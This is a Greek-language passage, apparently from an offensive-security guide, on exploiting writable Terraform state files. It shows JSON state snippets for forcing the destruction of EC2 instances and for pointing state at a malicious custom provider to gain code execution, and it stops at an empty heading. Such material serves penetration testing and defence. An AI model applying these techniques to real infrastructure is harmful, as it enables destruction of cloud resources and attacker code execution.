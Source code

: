 Σε περίπτωση που έχετε δικαίωμα εγγραφής στα αρχεία κατάστασης terraform αλλά δεν μπορείτε να αλλάξετε τον κώδικα terraform, [**αυτή η έρευνα**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) προσφέρει μερικές ενδιαφέρουσες επιλογές για να εκμεταλλευτείτε το αρχείο:

### Διαγραφή πόρων <a href="#deleting-resources" id="deleting-resources"></a>

Υπάρχουν 2 τρόποι για να καταστραφούν οι πόροι:

1. **Εισαγωγή ενός πόρου με τυχαίο όνομα στο αρχείο κατάστασης που να δείχνει στον πραγματικό πόρο προς καταστροφή**

Δεδομένου ότι το terraform θα δει ότι ο πόρος δεν θα έπρεπε να υπάρχει, θα τον καταστρέψει (ακολουθώντας το πραγματικό ID του πόρου που υποδεικνύεται). Παράδειγμα από την προηγούμενη σελίδα:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Τροποποιήστε τον πόρο για διαγραφή με τρόπο που να μην είναι δυνατή η ενημέρωση (έτσι ώστε να διαγραφεί και να αναδημιουργηθεί)**

Για μια EC2 instance, η τροποποίηση του τύπου της instance είναι αρκετή για να κάνει το terraform να διαγράψει και να αναδημιουργήσει την instance.

### RCE

Είναι επίσης δυνατό να [δημιουργήσετε έναν προσαρμοσμένο πάροχο](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) και απλώς να αντικαταστήσετε έναν από τους παρόχους στο αρχείο κατάστασης του terraform με τον κακόβουλο ή να προσθέσετε έναν κενό πόρο με τον κακόβουλο πάροχο. Παράδειγμα από την αρχική έρευνα:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
### Αντικατάσταση αποκλεισμένου παρόχου

